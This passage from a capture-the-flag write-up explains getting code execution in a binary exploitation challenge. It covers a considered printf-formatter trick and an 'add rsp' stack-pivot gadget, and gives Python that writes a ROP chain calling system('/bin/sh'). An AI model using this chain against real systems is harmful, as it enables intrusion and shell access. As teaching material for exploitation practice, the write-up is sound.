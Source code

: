 

### :bomb: Getting arbitrary code execution

Now that we have superpowers, we have to find a way to get code execution!

When starting this challenge, I immediately remembered the challenge `fsbaas` from the CTF `ECW Quals 2021`, which has a similar setup (no `__free_hook` overwrite and so on). The trick was to abuse [printf custom formatters](https://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html), to craft fake `__printf_function_table` and `__printf_arginfo_table` tables to finally call a `shell` function.

I started to implement it, but it sounded kind of too complicated for our simple needs, so I changed my strategy.



Let's summarize what we've got now:

- `PIE`,  `heap`, `libc`, `stack` leaks
- Arbitrary Write in memory
- Arbitrary return address overwrite



What if we could just find some *voodoo* gadget to return into our hand-crafted ROP chain ?

Indeed, we cannot just overwrite the memory next to the `printf` return address with our ROP chain in one shot (well theoretically we can, but I'm lazy :sleeping:).

We fire ROPgadget, and starts diving into the libc gadgets (the binary hasn't got a lot of gadgets).

After spending some time hunting for *fancy* JOP / COP gadgets, I saw a simple, stupid `add rsp, 0x30 ; ret` gadget. Which is just PERFECT for our needs!

We can just write our ROP chain upper in the stack, and finally overwrite the return address of `printf` by a `add rsp, 0xXX ; ret` gadget, which will gently return in our evil ROP chain :smiling_imp:.



```python
# Craft the ropchain on the stack

pop_rdi = libc_base + 0x000000000002e6c5 # pop rdi ; ret
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
system_addr = libc_base + libc.sym['system']

shift_stack_addr = libc_base + 0x00000000000474c7 # add rsp, 0xa8 ; ret

rop_addr = env_base - 0xb0

# Write the ROP chain in the stack
write64(rop_addr, pop_rdi + 1)
rop_addr += 8
write64(rop_addr, pop_rdi)
rop_addr += 8
write64(rop_addr, binsh_addr)
rop_addr += 8
write64(rop_addr, system_addr)
```
